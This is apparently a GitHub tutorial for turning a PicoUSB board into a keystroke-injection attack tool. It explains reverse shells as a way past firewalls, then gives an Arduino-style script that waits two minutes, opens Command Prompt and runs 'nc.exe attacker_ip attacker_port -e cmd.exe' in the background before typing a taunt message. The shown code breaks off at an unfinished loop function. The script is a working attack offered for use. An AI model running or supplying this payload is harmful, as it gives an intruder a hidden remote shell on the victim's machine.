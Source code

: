 ## Understanding Reverse Shells

A reverse shell is a type of shell where the target machine initiates a connection back to the attacker's machine. This technique is often used to bypass firewalls and NAT (Network Address Translation) restrictions, as outbound connections are generally less restricted than inbound connections.

### Why Use Netcat?

Netcat (often abbreviated as `nc`) is a powerful networking utility that can read and write data across network connections using TCP or UDP. It’s commonly used for:

- **Network Diagnostics**: Testing and debugging network services.
- **File Transfers**: Sending and receiving files over a network.
- **Reverse Shells**: Creating interactive shells that connect back to an attacker’s machine.

## Programming Environment

To program your PicoUSB device, you’ll typically use a development environment like the Arduino IDE. This guide assumes you’re using a device compatible with Arduino-like environments.

### Setting Up Your Environment

1. **Install Arduino IDE**: Download and install the Arduino IDE from the [official website](https://www.arduino.cc/en/software).
2. **Install Device Drivers**: Ensure you have the necessary drivers for your PicoUSB device. For example, Digispark and Teensy devices have specific drivers and setup procedures.
3. **Select Your Board**: In the Arduino IDE, select the appropriate board from the Tools menu.

## Crafting the Reverse Shell Script

Below is the script to create a reverse shell using a PicoUSB device. This script opens Command Prompt, runs a Netcat reverse shell, and sends a custom message.

### The Script

```cpp
// PicoUSB/ pseudocode for a reverse shell

void setup() {
  delay(120000);  // Wait for 120 seconds

  // Open Command Prompt
  Keyboard.press(KEY_LEFT_GUI);  // Press Windows key
  delay(2000);  // Wait for 2 seconds
  Keyboard.release(KEY_LEFT_GUI);
  
  Keyboard.print("cmd");  // Type "cmd" to open Command Prompt
  Keyboard.press(KEY_RETURN);  // Press Enter
  delay(2000);  // Wait for Command Prompt to open
  Keyboard.release(KEY_RETURN);
  
  // Run Netcat Reverse Shell
  Keyboard.print("start /b nc.exe attacker_ip attacker_port -e cmd.exe");  // Command to run Netcat in the background
  Keyboard.press(KEY_RETURN);  // Press Enter to execute the command
  delay(1000);  // Wait for the command to execute
  
  // Send Custom Message
  Keyboard.print("echo Nito was here, Mess with the Best Die like the Rest");  // Custom message
  Keyboard.press(KEY_RETURN);  // Press Enter to execute the command
  delay(1000);  // Wait for the command to execute
}

void loop() {
```
